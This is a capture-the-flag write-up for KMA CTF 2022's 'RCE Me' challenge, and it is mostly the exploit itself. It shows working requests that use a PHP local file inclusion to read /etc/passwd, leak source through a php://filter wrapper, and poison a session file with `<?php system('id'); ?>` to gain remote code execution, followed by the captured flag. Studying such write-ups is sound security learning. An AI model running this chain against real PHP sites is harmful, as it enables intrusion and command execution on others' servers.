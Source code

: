 # KMA CTF 2022 - RCE Me

**hint**: I am using php-fpm alpine docker

**Vulnerable to LFI**: `http://rce-me.ctf.actvn.edu.vn/?l=/etc/passwd`
```
root:x:0:0:root:/root:/bin/ash bin:x:1:1:bin:/bin:/sbin/nologin daemon:x:2:2:daemon:/sbin:/sbin/nologin adm:x:3:4:adm:/var/adm:/sbin/nologin lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin sync:x:5:0:sync:/sbin:/bin/sync shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown halt:x:7:0:halt:/sbin:/sbin/halt mail:x:8:12:mail:/var/mail:/sbin/nologin news:x:9:13:news:/usr/lib/news:/sbin/nologin uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin operator:x:11:0:operator:/root:/sbin/nologin man:x:13:15:man:/usr/man:/sbin/nologin postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin cron:x:16:16:cron:/var/spool/cron:/sbin/nologin ftp:x:21:21::/var/lib/ftp:/sbin/nologin sshd:x:22:22:sshd:/dev/null:/sbin/nologin at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin games:x:35:35:games:/usr/games:/sbin/nologin cyrus:x:85:12::/usr/cyrus:/sbin/nologin vpopmail:x:89:89::/var/vpopmail:/sbin/nologin ntp:x:123:123:NTP:/var/empty:/sbin/nologin smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin guest:x:405:100:guest:/dev/null:/sbin/nologin nobody:x:65534:65534:nobody:/:/sbin/nologin www-data:x:82:82:Linux User,,,:/home/www-data:/sbin/nologin utmp:x:100:406:utmp:/home/utmp:/bin/false
```

Let's try to read source code using `php wrapper`: `http://rce-me.ctf.actvn.edu.vn/?l=php://filter/convert.base64-encode/resource=index.php`
```php
<?php
session_start();
$_SESSION['name'] = @$_GET["name"];
$l = @$_GET['l'];
if ($l) include $l;
?>
<h1>Try rce me!</h1>
<h2>
  <a href="?l=/etc/passwd">?l=/etc/passwd</a>
</h2>
```

The idea very is very clear, if we can read php session file, we can using `name parameter` to inject PHP code to session file to get RCE:

**PHP session file location**: Just google it, stack overflow,.. try everything... haizz!!
*References*:
First check the value of `session.save_path` using `ini_get('session.save_path')` or `phpinfo()`. If that is non-empty, then it will show where the session files are saved. In many scenarios `it is empty by default`, in which case read on:

On `Ubuntu or Debian` machines, if `session.save_path is not set`, then session files are saved in `/var/lib/php5`.

On `RHEL and CentOS` systems, if `session.save_path is not set`, session files will be saved in `/var/lib/php/session`

I think that if you `compile PHP from source`, then when `session.save_path is not set`, session files will be saved in `/tmp`.

And yes, your php session file location is: 
```
/tmp/sess_[YOUR-PHP-SESSION-ID]
```

**Try**: `http://rce-me.ctf.actvn.edu.vn/?l=/tmp/sess_sd8vma27g1tuo0e6e1v7e18jj1`
```html
name|N;
```

`http://rce-me.ctf.actvn.edu.vn/?l=/tmp/sess_sd8vma27g1tuo0e6e1v7e18jj1&name=<?php system('id'); ?>`
```html
name|s:22:"uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data) ";
```

Do some simple rce, we found file contain the flag: `flag_KMACTF_hihi_do_anh_bat_duoc_em.txt`

**flag**: `KMACTF{Do_anh_session_duoc_em_hihi}` 
